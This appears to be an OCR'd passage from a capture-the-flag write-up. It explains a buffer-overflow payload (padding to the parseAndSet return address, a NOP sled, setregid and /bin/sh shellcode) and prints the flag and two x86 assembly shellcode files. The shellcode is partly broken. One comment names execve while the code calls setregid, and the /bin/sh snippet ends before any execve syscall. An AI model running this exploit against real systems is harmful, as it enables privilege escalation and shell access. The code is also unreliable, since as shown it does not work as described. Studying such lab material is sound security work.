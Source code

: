 * details:
    * The size of ``<random-bytes>`` will be based on the calculate offset from the user input to the return address of ``parseAndSet`` function.
    * ``<redirect-address>`` will be approximate address where ``<nop-sled>`` is expected to reside based on the offset.
    * ``<setregid>`` sets group ID to setlevflag to get permission to read flag
        * from ``/src/problem_4/setregid.s`` assembly code, hex for setting group id can be retrieved
    * ``<bin-sh>`` spawns a shell for user interaction
        * from ``/src/problem_4/bin_sh.s`` assembly code, hex for spawning shell can be retrieved

* result:
    * flag: ``SKCTF{50l0_l3v3l1n6_0w0}``


### Supplementary Scripts
#### ``setregid.s``
* code snippet
```
.intel_syntax noprefix

.section .text
.global _start

# objdump -d setregid | grep '[0-9a-f]:' | grep -oP '\s\K([0-9a-f]{2} )+' | tr -d ' \n' | sed 's/\(..\)/\\x\1/g'

_start: 
    xor ebx, ebx
    mov bx, 1004 # setlev 1004
    

    xor ecx, ecx
    mov cx, 1004 # setlevflag 1004
    
    # perform syscall for 11 (execve)
    xor eax, eax
    mov    al, 71    # Set eax to 71 (setregid)
    int    0x80      # Trigger interrupt to make the syscall

```

#### ``bin_sh.s``
* code snippet
```
.intel_syntax noprefix

.section .text
.global _start

# objdump -d bin_sh | grep '[0-9a-f]:' | grep -oP '\s\K([0-9a-f]{2} )+' | tr -d ' \n' | sed 's/\(..\)/\\x\1/g'

_start: 
    xor    eax, eax               # Clear eax register
    push   eax                    # Push null terminator
    push   0x68732f2f             # Push "//sh" onto the stack
    push   0x6e69622f             # Push "/bin" onto the stack
    mov    ebx, esp               # Set ebx to the top of the stack (pointer to "/bin//sh")

    xor eax, eax
    push eax
    push   ebx                    # Push pointer to "/bin//sh" for argv[0]
    mov    ecx, esp               # Set ecx to point to the argv array (argv)

```